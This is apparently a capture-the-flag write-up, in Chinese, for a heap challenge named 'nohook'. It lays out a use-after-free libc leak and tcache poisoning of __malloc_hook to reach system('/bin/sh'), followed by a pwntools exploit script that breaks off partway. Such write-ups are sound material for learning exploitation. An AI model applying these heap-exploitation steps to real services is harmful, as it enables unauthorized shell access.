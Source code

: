 1. 申请largebin 然后free进入unsortedbin，泄露libc
2. 构造tcache attack申请到mallochook
3. 构造tcache attack使得tcache指向system
4. free 步骤2中申请到的mallochook，使得mallochook -> system
5. add("/bin/sh")触发mallochook，size为longlong类型，可以size=‘/bin/sh’
6. get shell

## 总结

题目条件有很明显的为这种利用方式开路，首先delete的UAF，其次size是longlong类型，可以直接malloc(size) ->system('/bin/sh')，题目隐藏了关键nohook的点（花指令），坑点之一就在这，做提前要看仔细了，之后就是巧妙地用free的顺序绕过了edit对malloc/free hook的检测，其实就是将mallochook的fd指针指向system就能实现和直接用edit修改mallochook的效果，而tcache链表刚好是由fd来链接的，所以可以通过free顺序实现修改mallochook -> system。

## exp

```python
#utf-8
from pwn import *
context.log_level='debug'
context.terminal = ["/bin/tmux", "sp",'-h']

sh = process('./nohook')
#sh = remote('47.104.143.202',25997)
libc = ELF('/lib/x86_64-linux-gnu/libc.so.6')

def add(size):
  sh.recvuntil('exit')
  sh.sendline('1')
  sh.recvuntil('size:')
  sh.sendline(str(size))
def dele(idx):
  sh.recvuntil('exit')
  sh.sendline('3')
  sh.recvuntil('id:')
  sh.sendline(str(idx))
def edit(idx,content):
  sh.recvuntil('exit')
  sh.sendline('4')
  sh.recvuntil('id:')
  sh.sendline(str(idx))
  sh.send(content)
def show(idx):
  sh.recvuntil('exit')
  sh.sendline('2')
  sh.recvuntil('id:')
  sh.sendline(str(idx))

add(0x420)#0 large bin
add(0x10)#1
edit(1,'/bin/sh\x00')
dele(0) # free to unsorted bin
show(0) # UAF
sh.recvuntil('\x7f\x00\x00')
libcbase = u64(sh.recv(6).ljust(8,b'\x00')) + 0x7f2be7c93000 - 0x7f2be7e7ebe0
binsh = libcbase + 0x7f7c9aa4c5aa - 0x7f7c9a895000

print hex(libcbase)
#gdb.attach(sh)
add(0x30)#2
add(0x30)#3
dele(3)
dele(2)
edit(2,p64(libcbase+libc.sym['__malloc_hook']-0x10))
```